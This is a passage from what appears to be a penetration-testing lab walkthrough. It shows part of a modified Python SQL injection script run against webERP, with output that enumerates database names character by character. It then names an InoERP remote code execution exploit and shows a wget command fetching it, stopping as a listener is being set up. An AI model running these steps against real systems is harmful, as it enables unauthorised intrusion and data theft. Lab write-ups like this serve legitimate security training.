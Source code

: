 ```
        currentDbName = currentDbName[:len(currentDbName)-1]
        print "Finally, database #"+str(i+1)+" on server: " + currentDbName
        namesOfDatabases.append(currentDbName)
    print "Databases: " + str(namesOfDatabases)
    print "TOTAL TIME = ", time.time() - TOTAL_TIME
    
```

We once again execute our modified exploit, and see the following output.

```
kali@kali:~/Desktop/sqliWebERp$ python sqli_dbNames.py 192.168.100.72 "weberp/" admin weberp 0
Finally, database #1 on server: information_schema
database #2 on server: i...
database #2 on server: in...
database #2 on server: ino...
database #2 on server: inoe...
database #2 on server: inoer...
database #2 on server: inoerp...
database #2 on server: inoerp_...
database #2 on server: inoerp_d...
database #2 on server: inoerp_db...
Finally, database #2 on server: inoerp_db
database #3 on server: w...
database #3 on server: we...
database #3 on server: web...
database #3 on server: webe...
database #3 on server: weber...
database #3 on server: weberp...
database #3 on server: weberp_...
database #3 on server: weberp_d...
database #3 on server: weberp_db...
Finally, database #3 on server: weberp_db
Databases: ['information_schema', 'inoerp_db', 'weberp_db']
TOTAL TIME =  36.6472799778
```

The output reveals an interesting database: `inoerp_db`.

When visiting `http://192.168.100.72/inoerp` we discover another application.

![inoerp](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_135_image_3_9vrdDnSM.png)

inoerp

After researching `inoerp` we discover [InoERP 0.7.2 - Remote Code Execution (Unauthenticated)](https://www.exploit-db.com/exploits/48946).

We download the exploit onto our attacker machine.

```
kali@kali:~$ wget https://www.exploit-db.com/raw/48946
```

Now we start a listener on our attacker machine.

